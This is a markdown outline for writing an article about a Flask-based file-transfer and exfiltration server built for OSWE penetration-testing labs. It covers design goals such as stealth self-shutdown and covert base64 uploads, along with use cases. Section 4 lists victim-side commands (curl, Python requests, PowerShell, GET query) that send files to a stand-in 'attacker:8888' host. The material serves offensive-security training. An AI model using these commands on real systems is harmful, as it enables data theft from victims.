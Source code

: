 # Writing Guide: FileTransferServer Article (OSWE-focused)

This document is a structured outline to help you write a technical article about your `FileTransferServer` class. It includes suggested section titles, talking points, code snippets, and usage examples. Each section includes questions or prompts to guide your writing.

---

## 1. Introduction

**Prompts:**
- What was missing in your workflow during OSWE labs that led you to write this tool?
- Why not use Python’s built-in `http.server` or a full web framework?

**Topics to touch on:**
- Utility of ad-hoc servers in exploit chains
- Need for reliable, modular, reusable components
- Design philosophy: clarity, single-responsibility, integration readiness

---

## 2. Goals of FileTransferServer

**Prompts:**
- What key problems does this solve that others don't?
- Which behaviors did you deliberately avoid (e.g., persistent state, CLI flags)?

**Points to highlight:**
- GET and POST support for files
- Base64 for blind or covert uploads
- Route randomization
- Self-shutdown logic for stealth
- Logging with `OffsecLogger`
- Callback hook for chaining behaviors (e.g., trigger next stage)

---

## 3. Class Overview and Key Parameters

**Prompt:**
- Which parameters are critical for first-time users to understand?

```python
fts = FileTransferServer(
    file_path="loot.zip",
    save_dir="/tmp",
    direction="upload",
    limit=1,
    encoded=True,
    log_to_console=True,
    html_page_route='/drop',
    on_transfer=lambda path, count: print(f"[callback] Received: {path}")
)
```

**Explain:**
- What happens on `.start()`
- When and how `on_transfer` is called
- The purpose of `limit` and how it interacts with shutdown

---

## 4. Use from the Victim Machine

### A. Uploading via curl
```bash
curl -X POST http://attacker:8888/<route> -F "file=@loot.txt"
```

### B. Uploading JSON base64
```python
import requests, base64
data = base64.b64encode(open("loot.txt", "rb").read()).decode()
requests.post("http://attacker:8888/<route>", json={"filename": "loot.txt", "data": data})
```

### C. Uploading from PowerShell
```powershell
$b64 = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("loot.zip"))
$json = @{ filename = "loot.zip"; data = $b64 } | ConvertTo-Json -Compress
Invoke-RestMethod -Uri "http://attacker:8888/<route>" -Method POST -Body $json -ContentType "application/json"
```

### D. GET Exfiltration
```python
requests.get("http://attacker:8888/exfil?q=<b64>&filename=data.txt")
```

---

## 5. Hidden Details Worth Noting

**Ideas:**
- Why use a Flask thread via `make_server()` instead of `app.run()`?
- Using `Path` consistently throughout
- Base64 decode fallback mechanism
- HTML template rendering from a string
- Using `request.remote_addr` for exfil file naming

---

## 6. Use Cases

**Discuss:**
- Payload hosting in deserialization or file include chains
- Temporary server for SSRF, XSS, or CLI injection drops
- Exfil point for local file reads or command output
- Low-profile transfer method in client demos

---

## 7. Closing Thoughts

**Ideas:**
- What could be added next (e.g., authentication, encryption, timers)?
- How has this helped you focus on PoC logic instead of tooling?
- Invite others to clone, adapt, and use in their labs

---

## Optional Sections

- Tips for wrapping this in a CLI or subprocess trigger
- Logging strategies (color/stage/timestamp)
- Upload validation and what you intentionally omitted

---
